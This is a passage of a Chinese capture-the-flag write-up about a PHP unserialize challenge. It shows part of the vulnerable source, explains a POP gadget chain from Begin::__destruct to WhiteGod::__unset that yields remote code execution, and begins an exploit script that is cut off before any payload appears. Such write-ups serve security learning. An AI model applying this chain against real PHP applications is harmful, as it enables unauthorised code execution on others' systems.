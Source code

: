 ```
    {
        die("==GAME OVER==");
    }
}
class CTF{
    public $handle;

    public function end()
    {
        unset($this-&gt;handle-&gt;log);
    }
}
class WhiteGod{
    public $func;
    public $var;

    public function __unset($var)
    {
        ($this-&gt;func)($this-&gt;var);    
    }
}
@unserialize($_POST['pop']);

```

2.题目主要考察POP链构造，整个链子比较简单。从Begin的__destruct析构函数作为起点开始，构造POP链触发到WhiteGod的__unset方法，__unset方法中存在一个函数的动态调用，可以实现RCE。<br/> POP Gadget如下：

```
Begin::__destruct -&gt; Then::__toString -&gt; Super::__invoke -&gt; Handle::__call -&gt; CTF::end -&gt; WhiteGod::__unset

```

编写Exp如下：

```
&lt;?php
class Begin {
    public $name;
    public function __construct($a) {
        $this-&gt;name = $a;
    }
}
class Then {
    private $func;
    public function __construct($a) {
        $this-&gt;func= $a;
    }
}
class Handle {
    protected $obj;
    public function __construct($a) {
        $this-&gt;obj = $a;
    }
}
class Super {
    protected $obj;
    public function __construct($a) {
        $this-&gt;obj = $a;
    }
}
class CTF {
    public $handle;
    public function __construct($a) {
```